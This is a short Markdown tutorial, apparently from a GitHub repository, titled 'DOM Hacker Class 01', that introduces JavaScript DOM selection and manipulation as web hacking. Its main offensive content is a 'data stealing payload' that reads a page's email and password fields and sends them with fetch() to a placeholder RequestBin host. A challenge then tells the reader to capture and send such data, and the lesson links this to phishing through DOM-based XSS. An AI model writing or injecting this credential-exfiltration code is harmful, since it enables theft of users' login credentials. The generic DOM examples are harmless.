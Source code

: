 # DOM Hacker Class 01 - Introduction to DOM Manipulation (Web Hacking)

## Lessons learnt

* The DOM is the structure of an HTML page that JavaScript can access and manipulate.
* Hackers use the DOM to read or modify page content, steal data, inject forms, etc.
* JavaScript can be used to hijack or manipulate elements dynamically.

---

## 🧰 Basic DOM Commands

### Select Elements

```js
// By ID
document.getElementById("email")

// By class name
document.getElementsByClassName("input")

// By tag name
document.getElementsByTagName("form")

// Query selectors (CSS-style)
document.querySelector("input[type='password']")
```

### Modify Values

```js
// Get input value
let email = document.getElementById("email").value;

// Change text content
document.querySelector("h1").textContent = "Hacked";

// Change background
document.body.style.background = "black";
```

---

## 🐱‍💻 Simple DOM Data Stealing Payload

```js
let email = document.getElementById("email").value;
let pass = document.getElementById("password").value;
fetch("https://YOUR-REQUESTBIN.x.pipedream.net?email=" + email + "&password=" + pass);
```

> ✅ This sends the victim's email and password to your server.

---

## 🔥 Challenge

practice:

* Locate the email and password input on a form.
* Use `console.log()` to test capturing the data.
* Send it to your own endpoint using `fetch()`.

---

## 🧠 Real-World Application

This is how real phishing scripts silently steal login credentials using JavaScript injected via DOM-based XSS or HTML Injection.

**You're officially inside the DOM.** Welcome to the deep end homie😈
